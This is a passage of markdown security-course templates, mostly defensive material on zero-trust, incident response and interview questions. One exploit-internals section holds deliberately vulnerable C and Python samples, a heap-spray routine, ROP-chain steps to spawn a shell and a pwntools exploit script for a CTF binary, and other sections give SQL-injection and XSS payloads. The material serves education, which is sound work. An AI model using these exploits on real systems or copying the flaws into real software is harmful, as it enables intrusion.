    log.append("login", "user_1", {"ip": "1.2.3.4"})
    log.append("access", "user_1", {"resource": "db"})
    assert log.verify_integrity()
    # Tamper with an entry
    log.entries[0]["details"]["ip"] = "9.9.9.9"
    assert not log.verify_integrity()

def test_mtls_context_requires_cert():
    with pytest.raises(Exception):
        create_mtls_context("/nonexistent.crt", "/nonexistent.key", "/nonexistent.ca")
```

## Tricky Questions
**Q: How does zero-trust differ from defense-in-depth?**
Defense-in-depth stacks multiple security layers (WAF + auth + encryption). Zero-trust is an architectural model that eliminates implicit trust based on network location — every request is verified regardless of source. They are complementary: zero-trust is the model, defense-in-depth describes the layers within it.

**Q: Why must IR playbooks be regularly exercised, not just documented?**
Documented but unexercised playbooks reveal gaps only during a real incident — too late. Tabletop exercises expose missing tool access, unclear escalation paths, and incorrect assumptions in a safe environment. Each exercise improves MTTR when a real incident occurs.

## Cheat Sheet
```text
Zero-Trust: Verify explicitly | Least privilege (JIT) | Assume breach (micro-segment)
Supply chain: signed commits → SAST → SCA → SBOM → signed images → runtime detection
IR phases: Detection → Triage → Containment → Investigation → Eradication → Recovery → Post-IR
NIST CSF: Identify → Protect → Detect → Respond → Recover
Key SLOs: Critical CVE 0 > 3d | MTTR P1 < 4h | MFA 100% | mTLS 100% | SAST 100%
```

## Summary
Senior cyber security covers: zero-trust architecture design (verify explicitly, least privilege, assume breach), organization-wide security program management using NIST CSF, software supply chain security (signed commits → SBOM → signed images → runtime detection), incident response lifecycle with SLA-driven playbooks, and JIT access with immutable audit logging.

## What You Can Build
- Zero-trust authorization gateway with JIT grants and anomaly scoring
- Hash-chained immutable audit log with integrity verification
- Full supply chain CI/CD pipeline: SAST + SCA + SBOM + cosign signing
- IR playbook template with runbooks for account takeover, ransomware, data breach scenarios

## Further Reading
- NIST Cybersecurity Framework 2.0: nist.gov/cyberframework
- Google BeyondCorp: research.google/pubs/pub43231
- CISA Zero Trust Maturity Model: cisa.gov/zero-trust-maturity-model
- MITRE ATT&CK: attack.mitre.org

## Related Topics
- Kubernetes and container security
- IAM and identity federation (SAML, OIDC)
- Regulatory compliance (SOC 2, PCI DSS, HIPAA, GDPR)

## Diagrams


</details>

---

# TEMPLATE 4 — `professional.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Exploit Internals and Threat Modeling

> **Ethical Disclaimer:** All content is for defensive security, authorized penetration testing, CTF competitions, and security research only. Never apply these techniques without explicit written authorization.

## Table of Contents
1. [Memory Corruption Mechanics](#memory-corruption-mechanics)
2. [Stack Exploitation Internals](#stack-exploitation-internals)
3. [Heap Exploitation Primitives](#heap-exploitation-primitives)
4. [ROP Chain Construction](#rop-chain-construction)
5. [Modern Mitigations and Bypass Techniques](#modern-mitigations-and-bypass-techniques)
6. [Cryptographic Weakness Internals](#cryptographic-weakness-internals)
7. [Kernel Exploit Paths](#kernel-exploit-paths)
8. [Rootkit Internals](#rootkit-internals)
9. [Syscall Filtering — seccomp](#syscall-filtering--seccomp)
10. [Source Code Walkthrough](#source-code-walkthrough)
11. [Runtime Metrics and CVE Analysis](#runtime-metrics-and-cve-analysis)
12. [Threat Modeling at Depth](#threat-modeling-at-depth)
13. [Edge Cases](#edge-cases)
14. [Test](#test)
15. [Tricky Questions](#tricky-questions)
16. [Summary](#summary)

## Memory Corruption Mechanics

### Stack Buffer Overflow
```c
// Classic stack buffer overflow — no bounds checking
void vulnerable(char *input) {
    char buf[64];
    strcpy(buf, input);   // copies until null byte — overflows if input > 64 bytes
}
// Stack frame layout (x86-64, stack grows downward):
// High address: [return address] ← overwrite target
//               [saved RBP      ]
//               [buf[64]        ] ← write starts here
// Low address:  (stack top)
//
// Overflowing buf overrides saved RBP and return address
// → control flow hijacked when function returns
```

```mermaid
graph TD
    HighAddr["return address ← attacker overwrites with shellcode/ROP gadget address"]
    SavedRBP["saved RBP"]
    Buffer["buf[64] ← strcpy writes here"]
    LowAddr["stack top"]
    HighAddr --> SavedRBP --> Buffer --> LowAddr
```

### Use-After-Free
```c
typedef struct {
    void (*callback)(void);
    int data;
} Widget;

Widget *w = malloc(sizeof(Widget));
w->callback = &legitimate_function;
free(w);
// heap chunk returned to allocator free list

Widget *attacker_buf = malloc(sizeof(Widget));
// attacker_buf may reuse w's freed chunk
memcpy(attacker_buf, attacker_controlled_data, sizeof(Widget));
// attacker sets callback to &shellcode or &ROP_pivot

w->callback();   // UAF: dereferences freed memory → now points to attacker data → arbitrary call
```

### Integer Overflow Leading to Buffer Overflow
```c
// Integer overflow → allocation too small → overflow
size_t count = user_supplied_count;   // attacker supplies UINT32_MAX
size_t alloc_size = count * sizeof(int);   // overflows to small value
int *buf = malloc(alloc_size);             // small allocation
for (size_t i = 0; i < count; i++)        // writes UINT32_MAX elements → heap overflow
    buf[i] = data[i];
```

## Stack Exploitation Internals

### Stack Canary
```c
// gcc inserts canary between buf and saved RBP automatically with -fstack-protector
// Stack layout with canary:
// [return address]
// [saved RBP     ]
// [CANARY        ] ← random value placed by function prologue
// [buf[64]       ]
//
// On function return: compare current CANARY to saved value
// If different → __stack_chk_fail() → program terminates
//
// Bypass requires leaking the canary value (format string vuln, info disclosure)
// then writing the correct canary value when overflowing
```

```python
# Illustrative: extract canary via format string (authorized CTF research)
# A format string vuln: printf(user_input) instead of printf("%s", user_input)
# Payload: "%7$p" → print 7th argument = canary from stack
# Then construct overflow payload: padding + canary + saved_rbp + new_ret_addr
```

## Heap Exploitation Primitives

### Heap Spray
```c
// Place attacker-controlled data at a predictable heap address before a UAF
// Strategy: allocate many same-size chunks, fill with fake vtable / shellcode
void heap_spray(size_t spray_count, size_t chunk_size) {
    for (size_t i = 0; i < spray_count; i++) {
        char *chunk = malloc(chunk_size);
        // Fill with: fake vtable ptr (every 8 bytes) pointing to shellcode
        for (size_t j = 0; j < chunk_size; j += 8)
            *(uint64_t*)(chunk + j) = (uint64_t)shellcode_address;
    }
}
// Free target object → allocate spray chunk at same address → UAF hits attacker data
```

### tcache Poisoning (glibc 2.31+)
```c
// tcache is a per-thread singly-linked free list (faster than main bins)
// Chunk structure: [prev_size | size | fd (next free chunk) | user data]
//
// Poisoning: overflow into freed chunk's fd pointer → redirect allocation
// (authorized research / CTF; patched in newer glibc with safe-linking)
//
// Safe-linking (glibc 2.32+): fd = (chunk_addr >> 12) XOR next_chunk_addr
// Bypass: leak a heap address to compute the XOR key
```

## ROP Chain Construction
```bash
# Find gadgets in libc (authorized research / CTF)
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --rop | grep "pop rdi ; ret"
# Example gadget: 0x2a3e5: pop rdi ; ret

# x86-64 calling convention: arg1=rdi, arg2=rsi, arg3=rdx
# Goal: call system("/bin/sh")
# ROP chain on stack (each entry = 8 bytes):
# 1. addr of "pop rdi ; ret" gadget
# 2. addr of "/bin/sh" string in libc
# 3. addr of "ret" gadget (stack alignment for MOVAPS in glibc)
# 4. addr of system() in libc
```

```mermaid
graph LR
    OverflowedRetAddr["Overflowed return addr → pop_rdi_gadget"]
    BinSh["/bin/sh string address → loaded into RDI"]
    AlignGadget["ret gadget → 16-byte stack align"]
    SystemCall["system() → executes /bin/sh"]
    OverflowedRetAddr --> BinSh --> AlignGadget --> SystemCall --> Shell["Shell"]
```

## Modern Mitigations and Bypass Techniques
| Mitigation | Mechanism | Bypass Technique | Bypass Difficulty |
|-----------|----------|-----------------|------------------|
| NX / DEP | Stack/heap non-executable | ROP chains use existing code | Medium |
| Stack Canary | Random value before ret addr | Canary leak via format string | Hard |
| ASLR | Randomize load addresses | Info leak → compute base | Medium |
| PIE | Randomize code segment | Info leak → code base | Medium |
| Full RELRO | GOT read-only | Not bypassed — change target | Hard |
| Safe-linking | XOR-obfuscate heap pointers | Heap address leak + XOR | Hard |
| Shadow Stack (CET) | Hardware-enforced return address | JOP / SROP (indirect) | Very Hard |

```bash
# Check mitigations on a binary (authorized research)
checksec --file=./target
# Output: NX: enabled | Stack: Canary found | PIE: enabled | RELRO: Full
```

## Cryptographic Weakness Internals

### ECB Mode Structural Leak
```python
from Crypto.Cipher import AES
import os

key = os.urandom(16)

# ECB mode — identical plaintext blocks → identical ciphertext blocks
def encrypt_ecb(data: bytes) -> bytes:
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(data)   # No IV — deterministic

# Attack: if two 16-byte plaintext blocks are identical, ciphertext blocks are identical
# "ECB penguin": encrypt a bitmap → structural patterns visible in ciphertext

# Fix: AES-GCM — provides both confidentiality and integrity
from Crypto.Cipher import AES as AES2
def encrypt_gcm(data: bytes, key: bytes) -> tuple[bytes, bytes, bytes]:
    nonce = os.urandom(12)
    cipher = AES2.new(key, AES2.MODE_GCM, nonce=nonce)
    ciphertext, tag = cipher.encrypt_and_digest(data)
    return nonce, ciphertext, tag
```

### CBC Padding Oracle Attack
```python
# Padding oracle: server returns different error for invalid padding vs valid padding + wrong MAC
# Attacker can decrypt one byte at a time by observing the oracle response
#
# For each byte position (right to left within block):
# 1. Flip a byte in the previous ciphertext block
# 2. Query the oracle: does this produce valid PKCS#7 padding?
# 3. If yes: deduce the plaintext byte from the XOR relationship
# 4. Repeat for each byte
#
# Full plaintext recovery with at most 256 * 16 = 4096 oracle queries per block
#
# Fix: Use AEAD (AES-GCM, ChaCha20-Poly1305) — authentication checked before decryption
# "Authenticate then decrypt" eliminates the padding oracle entirely
```

### Weak PRNG — Session Token Prediction
```python
import random, time

# Vulnerable: predictable seed
random.seed(int(time.time()))   # seed from current time — attacker knows approximate time
token = hex(random.getrandbits(64))   # predictable within a ~1s window

# Fix: CSPRNG from OS entropy
import secrets
token_safe = secrets.token_urlsafe(32)   # 256 bits from /dev/urandom — unpredictable
```

## Kernel Exploit Paths
```bash
# Known kernel privilege escalation paths (CVE examples — authorized research)

# Dirty COW (CVE-2016-5195) — race condition in copy-on-write page fault handler
# Allows unprivileged user to write to read-only memory mappings → overwrite /etc/passwd
# Patched in Linux 4.8.3

# Dirty Pipe (CVE-2022-0847) — pipe page cache flag not initialized → write to read-only files
# Local priv esc: overwrite SUID binary → root shell
# Patched in Linux 5.16.11

# eBPF verifier bypass (multiple CVEs 2021-2023)
# BPF verifier incorrectly allows out-of-bounds pointer arithmetic
# → arbitrary kernel memory read/write → full kernel compromise
# Mitigation: unprivileged eBPF disabled (kernel.unprivileged_bpf_disabled=1)
```

```bash
# Kernel hardening checks
uname -r
sysctl kernel.randomize_va_space     # ASLR: 2 = full
sysctl kernel.unprivileged_bpf_disabled   # should be 1
sysctl kernel.dmesg_restrict          # restrict dmesg to root
cat /proc/sys/kernel/kptr_restrict    # 2 = hide all kernel ptrs
```

## Rootkit Internals
| Type | Mechanism | Detection Method |
|------|----------|-----------------|
| LKM (Loadable Kernel Module) | Hooks syscall table, hides processes | Compare `/proc/modules` vs `lsmod`; Volatility memory dump |
| eBPF rootkit | Malicious eBPF programs attached to hooks | Enumerate all attached eBPF programs via `bpftool prog list` |
| Userland (LD_PRELOAD) | Intercepts libc calls (e.g., readdir, fopen) | Compare dynamic linker maps; `ltrace` vs direct syscall |
| Bootkit | Modifies MBR / UEFI boot chain | Secure Boot + TPM attestation; UEFI firmware integrity check |
| Container escape | Exploits kernel vuln from container | Falco runtime rules; seccomp profile; no privileged containers |

```bash
# Detect LD_PRELOAD rootkit
cat /proc/$(pidof suspicious)/maps | grep ".so"
# Compare to expected library list

# List all eBPF programs
bpftool prog list
# Unexpected programs attached to syscall hooks → potential rootkit

# Falco alert on unusual syscalls
# Rule: spawning shell from web server process
# - syscall: execve(comm="sh") by container web_server → alert
```

## Syscall Filtering — seccomp
```c
// seccomp-BPF: allowlist only required syscalls — defense-in-depth for containers
// Example: restrict a web server to only necessary syscalls
#include <seccomp.h>

void apply_seccomp_filter(void) {
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL_PROCESS);  // kill on violation

    // Allow only required syscalls
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(accept), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    // execve NOT in allowlist → process killed if exploit tries to spawn shell

    seccomp_load(ctx);
    seccomp_release(ctx);
}
```

```bash
# Verify seccomp status of a process
cat /proc/<pid>/status | grep Seccomp
# 0 = not restricted  1 = strict (read/write/sigreturn/exit only)  2 = filter (BPF)

# Docker seccomp profile
docker run --security-opt seccomp=./custom-seccomp.json my-app
```

## Source Code Walkthrough
Tracing a complete stack buffer overflow exploitation chain:

```c
// Vulnerable program (authorized CTF)
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() { system("/bin/sh"); }     // target function (not normally called)

void vulnerable(char *input) {
    char buf[64];
    gets(buf);    // BUG 1: no bounds check — reads until newline, overflows buf
}

int main() {
    char input[256];
    fgets(input, 256, stdin);
    vulnerable(input);
    return 0;
}

// Compiled with: gcc -o vuln vuln.c -no-pie -fno-stack-protector
// (no-pie: fixed addresses; no canary: no stack protection)

// Exploit construction (authorized CTF):
// 1. Find offset to return address: cyclic pattern → gdb → offset = 72 bytes
// 2. Find win() address: nm ./vuln | grep win → e.g., 0x401196
// 3. Payload: "A" * 72 + p64(0x401196)
//    → overflows buf (64) + saved RBP (8) → overwrites return address with win()
// 4. When vulnerable() returns → execution jumps to win() → system("/bin/sh")
```

```python
# Exploit script (authorized CTF environment only)
from pwn import *

elf = ELF("./vuln")
win_addr = elf.symbols["win"]   # e.g., 0x401196

payload = b"A" * 72            # pad to return address
payload += p64(win_addr)       # overwrite return address

proc = process("./vuln")
proc.sendline(payload)
proc.interactive()             # shell

# Defense: compile with -fstack-protector-strong -pie -z relro -z now
# → canary catches overflow; PIE randomizes addresses; Full RELRO protects GOT
```

## Runtime Metrics and CVE Analysis
| Metric | Healthy Range | Alert Threshold |
|--------|--------------|-----------------|
| Kernel patch lag (critical CVEs) | < 3 days | > 7 days — escalate |
| Container escape attempts (Falco) | 0 | Any — P1 incident |
| Seccomp violations | 0 in production | Any — investigate |
| ASLR enabled | 2 (full) | 0 or 1 — immediate fix |
| Privileged containers in prod | 0 | Any — block deploy |

### CVE Triage Process
```python
from dataclasses import dataclass
from enum import Enum

class CVSSRange(Enum):
    CRITICAL = "9.0-10.0"
    HIGH = "7.0-8.9"
    MEDIUM = "4.0-6.9"
    LOW = "0.1-3.9"

@dataclass
class CVE:
    cve_id: str
    cvss: float
    cwe: str
    component: str
    affected_version: str
    fixed_version: str
    exploit_available: bool

    @property
    def sla_days(self) -> int:
        if self.cvss >= 9.0 or self.exploit_available:
            return 3
        if self.cvss >= 7.0:
            return 7
        if self.cvss >= 4.0:
            return 14
        return 30

    @property
    def priority(self) -> str:
        if self.cvss >= 9.0 or self.exploit_available:
            return "P1-CRITICAL"
        if self.cvss >= 7.0:
            return "P2-HIGH"
        return "P3-MEDIUM"
```

## Threat Modeling at Depth
```mermaid
graph TD
    Assets["Application server, DB with PII, S3 with backups, IAM credentials"]
    Assets --> T1["Stack/heap overflow → RCE → full host compromise"]
    Assets --> T2["SQLi → DB dump → PII exfiltration → regulatory breach"]
    Assets --> T3["SSRF → cloud metadata → IAM key theft → AWS account takeover"]
    Assets --> T4["Supply chain → malicious dep → backdoor in every deployment"]
    Assets --> T5["Kernel exploit (container escape) → host OS → all containers"]
    T1 --> M1["ASLR + PIE + canary + NX + seccomp + regular patching"]
    T2 --> M2["Parameterized queries + WAF + least-privilege DB user"]
    T3 --> M3["SSRF IP filter + IMDSv2 required + VPC endpoint policies"]
    T4 --> M4["SCA + SBOM + signed deps + hermetic builds"]
    T5 --> M5["Seccomp profiles + no privileged containers + Falco + kernel patching"]
```

## Edge Cases
- ROP gadget availability: stripped binaries reduce available gadgets — attackers use libc gadgets instead
- ASLR entropy varies by OS; 32-bit processes have only 8-bit entropy — brute-forceable
- CBC padding oracle works even through load balancers if all backends return the same error
- LKM rootkit may survive `rmmod` if it removes itself from the module list first
- Seccomp profile too restrictive can break legitimate app functionality (e.g., blocking `clone` breaks thread creation)

## Test
```python
def test_cve_sla_calculation():
    log4shell = CVE("CVE-2021-44228", cvss=10.0, cwe="CWE-917",
                    component="log4j", affected_version="2.14.1",
                    fixed_version="2.17.0", exploit_available=True)
    assert log4shell.sla_days == 3
    assert log4shell.priority == "P1-CRITICAL"

def test_medium_cve_sla():
    cve = CVE("CVE-2023-XXXX", cvss=5.5, cwe="CWE-79",
               component="ui-lib", affected_version="1.2.0",
               fixed_version="1.2.1", exploit_available=False)
    assert cve.sla_days == 14
    assert cve.priority == "P3-MEDIUM"
```

## Tricky Questions
**Q: Why does NX/DEP not stop ROP attacks?**
NX marks memory regions non-executable, preventing injected shellcode from running. ROP chains do not inject new code — they reuse existing executable instructions ("gadgets") already present in the binary or libraries. Each gadget ends with `ret`, chaining execution via the stack. Since all gadgets are in executable memory, NX is not violated.

**Q: Why is ASLR less effective on 32-bit processes?**
ASLR randomizes load addresses but the entropy depends on the address space size. A 32-bit process has a 4GB address space; typically only 8 bits of entropy are available for the stack (256 possible positions). An attacker can brute-force the correct address in ~128 attempts on average — feasible via repeated crashes and restart.

**Q: How does a CBC padding oracle attack recover plaintext without the key?**
The PKCS#7 padding check leaks one bit of information: "valid padding" or "invalid padding." This acts as an oracle. By modifying the previous ciphertext block one byte at a time and observing the oracle response, an attacker can derive each plaintext byte through the CBC XOR relationship: `P[i] = C[i-1] XOR Decrypt(C[i])`. No key material is needed — only oracle access.

**Q: Why is seccomp a defense-in-depth layer, not a complete exploit mitigation?**
seccomp restricts syscalls but cannot prevent all exploitation paths. An attacker who achieves RCE within the allowed syscall set can still read sensitive files (if `read` is allowed), make network connections (if `socket`/`connect` are allowed), or exploit other allowed syscalls. seccomp significantly reduces the attacker's post-exploitation capabilities but does not prevent the initial exploitation.

## Summary
Professional-level cyber security requires binary-level understanding of exploitation mechanics: stack buffer overflows (stack layout, canary bypass), heap primitives (UAF, tcache poisoning), ROP chain construction against NX/DEP, modern mitigation bypass techniques (ASLR info leak, canary leak), cryptographic weakness internals (ECB structural leak, CBC padding oracle, PRNG prediction), kernel privilege escalation paths (Dirty COW, Dirty Pipe, eBPF), and rootkit mechanisms with detection methodologies. This knowledge drives accurate vulnerability severity assessment, mitigation design, and security control selection.

</details>

---

# TEMPLATE 5 — `interview.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Interview Preparation

## Junior
**Q1: What is SQL injection and how do you prevent it?**
Attacker-controlled input alters the SQL query logic — for example, `' OR '1'='1` bypasses a login check. Prevention: always use parameterized queries (prepared statements). Input validation is complementary but not sufficient alone.

**Q2: What is the difference between reflected and stored XSS?**
Reflected XSS: payload is in the URL, affects only users who click the malicious link. Stored XSS: payload is saved in the database and served to every user who views the affected page — higher impact. Both prevented by output encoding in the correct context (HTML/JS/URL).

**Q3: What is IDOR and how do you fix it?**
Insecure Direct Object Reference: the app exposes a resource by ID without verifying the requester owns it. Fix: server-side ownership check — `WHERE id = ? AND owner_id = ?`. Never trust client-supplied user IDs.

**Q4: Explain the TLS handshake.**
Client sends ClientHello (version, cipher suites, random nonce). Server responds with certificate and chosen cipher. Both derive a shared secret via ECDHE key exchange. Session keys derived from shared secret + random nonces. All subsequent traffic encrypted with AES-GCM using session key.

**Q5: What is the difference between fail safe and fail open?**
Fail safe: on error, deny access and log. Fail open: on error, allow through. Always fail safe for security controls — an attacker who can trigger exceptions should not thereby gain access.

## Middle
**Q6: Walk through a STRIDE threat model for a login endpoint.**
Spoofing: attacker uses stolen credentials → MFA. Tampering: session cookie modified → HMAC-signed cookie + SameSite. Repudiation: no audit trail → SIEM auth event log. Info Disclosure: username enumeration → generic "invalid credentials" message. DoS: brute force → rate limiting + account lockout. Elevation of Privilege: IDOR to admin resource → RBAC + ownership check.

**Q7: How does a WAF protect an application, and what are its limitations?**
WAF inspects HTTP request/response and blocks traffic matching attack signatures (SQLi, XSS patterns). Limitations: cannot protect against logic flaws, authenticated attacks, zero-days; bypassed via encoding tricks or unusual HTTP constructs; one layer, not a substitute for secure coding.

**Q8: How do you secure a file upload endpoint?**
Validate MIME type server-side (not client header). Use an allowlist of extensions. Scan with antivirus/malware scanner. Store outside webroot. Serve via a separate domain without execute permissions. Rename file on storage (attacker-controlled filename is untrusted). Set Content-Disposition: attachment on download.

**Q9: What is SSRF and how do you prevent it?**
Server-Side Request Forgery: attacker supplies a URL the server fetches — targeting internal services or cloud metadata (169.254.169.254). Prevention: allowlist of permitted domains; block all private/link-local IP ranges after DNS resolution; use IMDSv2 with hop limit on AWS; enforce HTTP/HTTPS scheme only.

**Q10: What security headers should every web app set?**
`Content-Security-Policy` (mitigate XSS), `Strict-Transport-Security` (enforce HTTPS), `X-Frame-Options: DENY` (prevent clickjacking), `X-Content-Type-Options: nosniff` (prevent MIME sniffing), `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy` (restrict browser features).

## Senior
**Q11: How do you design a zero-trust architecture for a microservices application?**
Every service-to-service call uses mTLS (mutual certificate authentication). Policy Enforcement Point intercepts all requests; Policy Decision Point evaluates identity + device context + behavior. JIT access grants with short TTL. No implicit trust based on network location. Full audit log to SIEM. Micro-segmentation with default-deny network policy.

**Q12: How do you build a software supply chain security pipeline?**
Signed commits (GPG) → SAST + secrets scan in PR gate → SCA CVE scan with SBOM generation at build → fail on critical CVEs → sign container image with cosign/Sigstore → admission webhook verifies signature at deployment → Falco runtime anomaly detection. Each step blocks malicious or vulnerable artefacts from progressing.

**Q13: How do you measure security program effectiveness?**
CVEs unpatched > SLA (0 critical > 3 days), MTTR for incidents by severity (P1 < 4h), SAST coverage (100% repos), MFA adoption (100%), patch compliance (> 99% critical within 7 days), red team exercise frequency (quarterly), mean time to detect (MTTD) from SIEM alerts.

## Professional
**Q14: How does a ROP chain defeat NX/DEP?**
NX prevents stack/heap-resident shellcode from executing. ROP reuses gadgets — short instruction sequences ending in `ret` — that already exist in executable memory (libc, binary). Chaining gadgets via the stack allows arbitrary computation without injecting new code. ASLR randomizes gadget addresses, requiring an information leak to locate them at runtime.

**Q15: Why is ECB mode insecure even though it uses AES?**
ECB encrypts each 16-byte block independently with the same key and no IV. Identical plaintext blocks produce identical ciphertext blocks. This leaks structural information about the plaintext — a bitmap encrypted with ECB retains visible structure (the "ECB penguin"). AES-GCM uses a nonce and includes a MAC, providing both diffusion and integrity.

**Q16: How does a padding oracle attack work?**
PKCS#7 requires the last N bytes of the last block to equal N (e.g., 4 bytes of value 0x04). If the server returns a distinguishable error for invalid padding, this is an oracle. For the last block, the attacker modifies the second-to-last ciphertext block byte by byte. When the modified byte produces valid padding (e.g., 0x01 in the last position), the attacker derives the plaintext byte via `P = oracle_byte XOR modified_C XOR original_C`. Full block decryption requires ~128 queries per byte on average.

**Q17: What is a seccomp filter and how does it reduce exploitation impact?**
seccomp-BPF allows specifying a syscall allowlist (or denylist) for a process using eBPF programs. Violations result in SIGKILL or SIGSYS. Even if an attacker achieves RCE, they cannot call `execve` (blocked → no shell spawn), `ptrace` (blocked → no process injection), or `socket` (blocked → no data exfiltration). This significantly limits post-exploitation capability while the root cause is remediated.

</details>

---

# TEMPLATE 6 — `tasks.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Hands-On Practice Tasks

> **Ethical Disclaimer:** Perform ALL tasks in authorized environments only — DVWA, WebGoat, HackTheBox, TryHackMe, CTF platforms, or lab systems with explicit written authorization. Never apply offensive techniques to production systems.

## Junior

**Task 1 — SQL Injection Lab:**
In DVWA (security level: Low), exploit the SQL injection form to enumerate all tables in the database, then dump all password hashes. Switch to Medium (parameterized), confirm injection is blocked. Fix: parameterize the original Low query, verify it works and blocks the payload.

**Task 2 — XSS Cookie Theft (Lab):**
In WebGoat, exploit the stored XSS exercise to exfiltrate a session cookie using `document.cookie`. Document the full attack chain. Fix: enable output encoding + set `HttpOnly` on the session cookie. Verify the cookie is no longer accessible via JavaScript.

**Task 3 — TLS Audit:**
Run `testssl.sh --full` against a test server (e.g., badssl.com test domains). Document: supported TLS versions, weak cipher suites (RC4, DES, 3DES), certificate chain issues, HSTS presence. Write a prioritized remediation report.

**Task 4 — CVE Triage Exercise:**
Given a list of 10 CVEs (from your project's dependency scan output), assign CVSS-equivalent priority, research fix availability, and produce a remediation plan with SLA dates. Identify which CVE should be patched first and justify.

## Middle

**Task 5 — STRIDE Threat Model:**
For a three-tier web application (browser → API gateway → backend → PostgreSQL), produce a full STRIDE threat model. For each threat: name, category, affected component, CVSS-equivalent severity (Critical/High/Medium/Low), existing control, and recommended additional control.

**Task 6 — WAF Rule Writing and Tuning:**
Write three ModSecurity rules: (1) block SQLi in POST body, (2) block XSS in URL query parameters, (3) rate-limit `/api/login` to 10 requests per 60 seconds per IP. Enable detection-only mode, generate test traffic, identify false positives, tune exception rules, then switch to blocking mode.

**Task 7 — SIEM Alert Pipeline:**
Write a Splunk SPL query to detect each of: (a) brute force — 5 failed auth attempts from same IP in 60s, (b) account enumeration — 20 HTTP 404s to `/api/users/<id>` from same IP in 60s, (c) privilege escalation — admin action by non-admin role. Test each query with simulated log data.

**Task 8 — SSRF and Path Traversal Lab:**
In an authorized lab environment: (a) exploit SSRF to read AWS instance metadata at 169.254.169.254 (lab only), (b) exploit path traversal to read `/etc/passwd` (lab only). Then implement `is_ssrf_safe()` and `safe_file_path()` defenses and verify they block the exploits.

## Senior

**Task 9 — Zero-Trust Network Policy:**
Design micro-segmentation for a three-service app (frontend, api, database). Produce Kubernetes NetworkPolicy YAML implementing default-deny + explicit ingress rules. Produce Istio AuthorizationPolicy YAML enforcing mTLS and service identity checks.

**Task 10 — Supply Chain Pipeline:**
Build a complete CI/CD security pipeline: (a) Semgrep SAST on push, (b) Grype SCA with SBOM generation on build, (c) cosign image signing on publish, (d) admission webhook verification in staging. Produce GitHub Actions YAML. Verify the pipeline blocks a dependency with a known critical CVE.

**Task 11 — IR Tabletop Exercise:**
Design and run a 90-minute tabletop exercise for a hypothetical account takeover incident. Prepare: scenario brief, inject timeline (6 injects at 15-minute intervals), evaluation rubric measuring containment time, communication quality, evidence preservation, root cause identification. Document lessons learned and playbook updates.

</details>

---

# TEMPLATE 7 — `find-bug.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Find the Bug

> **Ethical Disclaimer:** All exercises are for defensive security education in authorized environments. Never apply attack techniques to systems without explicit written authorization.

**Score Card:**
| Exercise | Difficulty | Points |
|----------|-----------|--------|
| Exercise 1 | 🟢 Easy | 10 |
| Exercise 2 | 🟢 Easy | 10 |
| Exercise 3 | 🟢 Easy | 10 |
| Exercise 4 | 🟡 Medium | 20 |
| Exercise 5 | 🟡 Medium | 20 |
| Exercise 6 | 🟡 Medium | 20 |
| Exercise 7 | 🟡 Medium | 20 |
| Exercise 8 | 🔴 Hard | 30 |
| Exercise 9 | 🔴 Hard | 30 |
| Exercise 10 | 🔴 Hard | 30 |
| **Total** | | **200 points** |

---

## Exercise 1 — SQL Injection 🟢
```python
# What is the vulnerability?
def get_product(name: str) -> list:
    query = f"SELECT * FROM products WHERE name LIKE '%{name}%'"
    return db.execute(query).fetchall()
```
<details>
<summary>Hint</summary>
What happens if name = `%' UNION SELECT username, password, null FROM users --`?
</details>
<details>
<summary>Answer</summary>
**Bug:** String concatenation into SQL query. Attacker can inject UNION SELECT to exfiltrate any table.

**Fix:**
```python
def get_product(name: str) -> list:
    return db.execute(
        "SELECT * FROM products WHERE name LIKE ?",
        (f"%{name}%",)
    ).fetchall()
```
</details>

---

## Exercise 2 — Stored XSS via Disabled Autoescaping 🟢
```python
# What is the vulnerability?
from flask import Flask, render_template_string
app = Flask(__name__)
app.jinja_env.autoescape = False   # ← line of interest

@app.route("/comment/<text>")
def comment(text):
    return render_template_string("<p>{{ text }}</p>", text=text)
```
<details>
<summary>Hint</summary>
What renders if text = `<script>alert(document.cookie)</script>`?
</details>
<details>
<summary>Answer</summary>
